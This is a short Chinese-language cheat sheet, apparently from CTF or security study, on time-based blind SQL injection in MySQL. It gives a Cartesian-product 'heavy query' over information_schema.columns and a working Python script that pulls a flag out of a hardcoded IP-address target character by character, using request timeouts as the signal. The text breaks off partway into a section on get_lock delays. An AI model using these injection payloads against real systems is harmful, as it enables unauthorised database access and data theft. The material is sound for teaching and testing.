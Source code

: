 # heavy query       

[链接](http://www.360zhijia.com/anquan/369098.html)

## 笛卡尔积运算

> select * from content where id = 1 and 1 and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.columns C);

```python
import requests

url = "http://52.80.179.198:8080/article.php?id=1' and %s and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.columns C)%%23"
data = ""
for i in range(1,1000):
    for j in range(33,127):
        #payload = "(ascii(substr((database()),%s,1))=%s)"%(i,j) #post
        #payload = "(ascii(substr((select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database()),%s,1))=%s)" % (i, j) #article,flags
        #payload = "(ascii(substr((select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='flags'),%s,1))=%s)" % (i, j) #flag
        payload = "(ascii(substr((select flag from flags limit 1),%s,1))=%s)" % (i, j)
        payload_url = url%(payload)
        try:
            r = requests.get(url=payload_url,timeout=8)
        except:
            data +=chr(j)
            print data
            break
```



##  Get_lock

get_lock是mysql的锁机制

* get_lock会按照key来加锁，别的客户端再以同样的key加锁时就加不了了，处于等待状态。
* 当调用release_lock来释放上面的锁或者客户端断线，上面的锁才释放，其他的客户端才能进来

打开两个cmd

cmd1:

```
mysql> select get_lock('skysec.top',1);
+--------------------------+
| get_lock('skysec.top',1) |
+--------------------------+
|                        1 |
+--------------------------+
1 row in set (0.00 sec)
```
